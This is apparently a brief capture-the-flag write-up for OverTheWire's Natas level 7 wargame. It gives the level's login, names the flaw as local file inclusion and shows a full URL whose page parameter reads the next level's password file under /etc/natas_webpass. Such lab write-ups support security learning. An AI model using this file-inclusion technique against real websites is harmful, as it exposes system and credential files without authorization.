 # Username
natas7

# Password
bmg8SvU1LizuWjx3y7xkNERkHxGre0GS

# Web Vulnerbility
Exposed sourcecode, Sensitive data by URL parameter manipulation

# Method of Solve
Local file inclusion through page URL parameter using the following path:
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

